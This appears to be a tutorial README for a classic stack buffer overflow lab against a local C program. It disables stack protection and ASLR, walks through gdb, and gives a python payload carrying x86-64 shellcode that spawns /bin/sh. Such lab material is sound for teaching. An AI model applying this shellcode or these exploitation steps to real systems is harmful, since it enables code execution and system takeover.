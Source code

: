 

This approach of bufferOverflow uses gdb <br/>

You will need to compile it using the following compiler directives. You will notice that some security measures are turned off <br/>
- gcc -fno-stack-protector -z execstack buf.c -o buf <br/>
Next, you will need to remove another security precaution called ASLR. Execute the following command: <br/>
- sudo nano /proc/sys/kernel/randomize_va_space  <br/>

Run the obtained object file 'buf' passing a string input, say 'Hello' <br/>
./buf Hello <br/>

debug the execution using gdb debugger <br/>
- gdb -q buf <br/>

payload for the overflow:=  <br/>
'A'*76 + shellcode + // the 100 byte buffer  <br/>
'A'*12 + // the12 byte alignment part  <br/>
'B'*8 + // the 8 byte rbp <br/>
Return_address. // the 6 byte return address (rip) <br/>

We don't know the return address yet so we will just run it with any return address and when the program crashes we will <br/>
just examine memory and calculate the return address. How do we do that? Run the following from within gdb.

-Runnig the below command under gdb terminal should give access to shell on a linux distro <br/>
$(python -c "print 'A'*76+'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'+'A'*12+'B'*8+'C'*6")
